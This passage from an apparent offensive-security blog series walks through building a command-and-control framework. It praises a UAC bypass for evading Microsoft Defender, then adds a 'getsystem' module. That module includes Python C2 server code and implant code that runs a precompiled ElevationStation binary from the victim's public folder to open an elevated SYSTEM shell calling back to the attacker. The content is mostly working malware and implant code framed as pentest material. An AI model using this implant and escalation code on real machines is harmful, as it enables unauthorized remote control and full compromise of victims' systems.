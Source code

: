 You should be greeted with a new elevated connection sent to your C2 server!  Full source code located in the usual spot on my GitHub.  I'll reference it toward the bottom of this post.

![image](https://github.com/user-attachments/assets/7161461a-554a-43cb-80f6-465e21cb969d)

![image](https://github.com/user-attachments/assets/18a26f56-e388-4148-a80d-56c250f3f515)

![image](https://github.com/user-attachments/assets/ed627306-ece6-4833-8204-887a0ecbe6fa)

Nice!  I like this Bypass technique as it is very programatically sound.  What I mean by that is that it's hard for Defender to differentiate between malicious tampering and basic handling of sending keys and swapping out tokens.  Other than the executable we eventually run in an elevated manner, there's nothing really inherently suspicious about this UAC bypass technique.  We're not messing with the registry, tampering with environment varables, or modifying files in any way.  It's fairly innocuous if you ask me.  😄

***Part 3 - Adding in GetSystem for SYSTEM elevation functionality***
-

Privilege escalation is one of my favorite aspects of offensive security.  I love exploring all the various ways one can achieve `SYSTEM` level permissions in a pentest engagement.  It's where my twitter/X handle comes from, my passion for exploring the many facets and fascinations behind privilege escalation.  This next new module I'd like to introduce in Part 3 of this C2 series will be integrating my **ElevationStation** project code to help us elevate from an administrator/elevated process to **SYSTEM** privileges.

> **Prep**

Open the `elevationstation.sln` project file and compile it.  Copy/upload the compiled executable to the victim's `c:\users\public` directory.  We will be using this to escalate to **SYSTEM**!

> **Server-side code**

```python
 if choice == "getsystem":
            print("[+] Please wait ~15-20 seconds and you'll receive another connection with your new [SYSTEM] shell!")
            print("We're using elevationstation's Trusted Installer technique to get all privileges for the shell btw ;) ")
            clientlist[selection][1].send(b":getsystem:\n")
            systemstatus=clientlist[selection][1].recv(1024)
            systemstatus = systemstatus.decode('UTF-8')
            print(systemstatus)
            time.sleep(4)
            #getsystem=clientlist[selection][1].recv(1024)
            #getsystem = whoami.decode('UTF-8')
            #print("Results: ", getsystem)
            #time.sleep(2)
```

> **Client / Implant code** 🧟‍♂️

```python
if ":getsystem:" in data:
            victim=os.getlogin()
            if str(shell.IsUserAnAdmin()) == "False":
                print("Sorry but you need an elevated command prompt for escalating to [SYSTEM]")
                client.send(b"Sorry but you need an elevated command prompt for escalating to [SYSTEM]\n")
            elif os.getlogin() == "SYSTEM":
                print("You're already SYSTEM ;)")
                client.send(b"You're already SYSTEM ;)\n")
            else:
                proc = subprocess.Popen(["C:/Users/public/elevationstation.exe","-ti"], stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
                #client.send(b"returned output: \n"+proc.stdout.read())
                time.sleep(7)
```